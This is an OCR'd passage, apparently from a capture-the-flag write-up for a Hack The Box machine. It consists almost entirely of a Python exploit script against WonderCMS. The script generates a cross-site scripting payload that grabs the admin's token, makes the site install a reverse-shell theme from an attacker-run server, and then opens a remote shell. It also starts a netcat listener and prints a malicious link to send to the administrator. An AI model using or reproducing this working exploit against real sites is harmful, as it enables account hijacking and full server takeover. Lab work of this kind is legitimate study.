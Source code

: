 ```python
import os
import bs4

if (len(sys.argv)<4): print("usage: python3 exploit.py loginURL IP_Address Port\nexample: python3 exploit.py http://localhost/wondercms/loginURL 192.168.29.165 5252")
else:
  data = '''
var url = "'''+str(sys.argv[1])+'''";
if (url.endsWith("/")) {
 url = url.slice(0, -1);
}
var urlWithoutLog = url.split("/").slice(0, -1).join("/");
var urlWithoutLogBase = new URL(urlWithoutLog).pathname;
var token = document.querySelectorAll('[name="token"]')[0].value;
var urlRev = "http://sea.htb/wondercms/?installModule=http://10.10.16.76:8000/revshell-main.zip&directoryName=violet&type=themes&token=" + token;
var xhr3 = new XMLHttpRequest();
xhr3.withCredentials = true;
xhr3.open("GET", urlRev);
xhr3.send();
xhr3.onload = function() {
 if (xhr3.status == 200) {
   var xhr4 = new XMLHttpRequest();
   xhr4.withCredentials = true;
   xhr4.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php");
   xhr4.send();
   xhr4.onload = function() {
     if (xhr4.status == 200) {
       var ip = "'''+str(sys.argv[2])+'''";
       var port = "'''+str(sys.argv[3])+'''";
       var xhr5 = new XMLHttpRequest();
       xhr5.withCredentials = true;
       xhr5.open("GET", urlWithoutLogBase+"/themes/revshell-main/rev.php?lhost=" + ip + "&lport=" + port);
       xhr5.send();

     }
   };
 }
};
'''
  try:
    open("xss.js","w").write(data)
    print("[+] xss.js is created")
    print("[+] execute the below command in another terminal\n\n----------------------------\nnc -lvp "+str(sys.argv[3]))
    print("----------------------------\n")
    XSSlink = str(sys.argv[1]).replace("loginURL","index.php?page=loginURL?")+"\"></form><script+src=\"http://"+str(sys.argv[2])+":8000/xss.js\"></script><form+action=\""
    XSSlink = XSSlink.strip(" ")
    print("send the below link to admin:\n\n----------------------------\n"+XSSlink)
    print("----------------------------\n")

    print("\nstarting HTTP server to allow the access to xss.js")
    os.system("python3 -m http.server\n")
  except: print(data,"\n","//write this to a file")
```
##### Modificación del rev.php
